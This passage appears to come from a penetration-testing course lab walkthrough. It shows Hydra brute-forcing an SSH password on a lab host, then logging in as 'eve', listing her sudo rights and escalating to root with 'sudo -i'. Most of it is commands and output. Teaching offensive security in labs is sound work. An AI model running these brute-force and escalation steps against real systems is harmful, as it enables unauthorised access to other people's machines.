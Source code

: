 ```
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab120" - 121 of 1000 [child 0] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab121" - 122 of 1000 [child 3] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab122" - 123 of 1000 [child 2] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab123" - 124 of 1000 [child 1] (0/0)
[22][ssh] host: 192.168.50.214   login: eve   password: Lab123
1 of 1 target successfully completed, 1 valid password found
```

> Listing 29 - Successfully brute-forced eve's password

Our hydra brute forcing attack succeeded and we can now directly log in to the target machine with eve's credentials via SSH:

```
kali@kali:~$ ssh eve@192.168.50.214
eve@192.168.50.214's password:
Linux debian-privesc 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64
...
eve@debian-privesc:~$
```

> Listing 30 - Successfully Logged in as eve

Once logged in as *eve*, we can verify if we are running as a privileged user by listing the sudo capabilities using the **sudo -l** command.

```
eve@debian-privesc:~$ sudo -l
[sudo] password for eve:
Matching Defaults entries for eve on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eve may run the following commands on debian-privesc:
    (ALL : ALL) ALL
```

> Listing 31 - Inspecting sudo capabilities

Since *eve* seems to be an administrative account, we discover it can run any command as an elevated user. This means we can elevate directly to root by running *i* with sudo and supplying eve's credentials.

```
eve@debian-privesc:~$ sudo -i
[sudo] password for eve:

root@debian-privesc:/home/eve# whoami
root
```

> Listing 32 - Elevating to root

Great! We managed to elevate our privileges and gain administrative access via another route. In the next section, we will learn how to escalate privileges by harvesting system services credentials.

## Resources
